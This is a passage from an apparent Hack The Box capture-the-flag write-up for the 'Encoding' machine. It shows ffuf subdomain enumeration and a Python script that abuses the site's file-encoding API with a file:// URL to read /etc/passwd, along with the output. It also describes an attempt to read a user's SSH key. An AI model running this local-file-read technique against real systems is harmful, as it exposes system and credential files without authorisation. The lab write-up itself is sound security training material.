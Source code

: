 ```
 :: URL              : http://haxtables.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.haxtables.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1999
________________________________________________

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
    * FUZZ: api

[Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 37ms]
    * FUZZ: image
```

However vising the url http://image.haxtables.htb/ returns 403 Forbidden error, as indicated by ffuf, so i will move on for now.

The website shows some examples how to use the API. Among other things, i can use it to encode and read a file by specifying an URL:

![API](/assets/screenshots/htb-encoding/api.png)

First thing i thought when seeing this: "What happens if i change the protocol to file://?" I will slightly modify the request from the example, changing the protocol and decoding the file, and it works, i have an LFI!
```python
import requests
from base64 import b64decode
import json

json_data = {
    'action': 'b64encode',
    'file_url' : 'file:///etc/passwd'

}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)

resp_json = json.loads(response.text)

text =  b64decode(resp_json["data"]).decode()
print(text)
```

```
❯ python3 api.py
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
svc:x:1000:1000:svc:/home/svc:/bin/bash
...
```
I will that there is  `www-data` user, who is probably running the webapp and `svc` user. I tried reading the ssh key of `svc` user, but as expected it didn't work. I made a guess that the index of the main webpage is going to be located at `/var/www/html/index.php`, and it is, but it is mostly pure HTML so it doesn't reveal much.
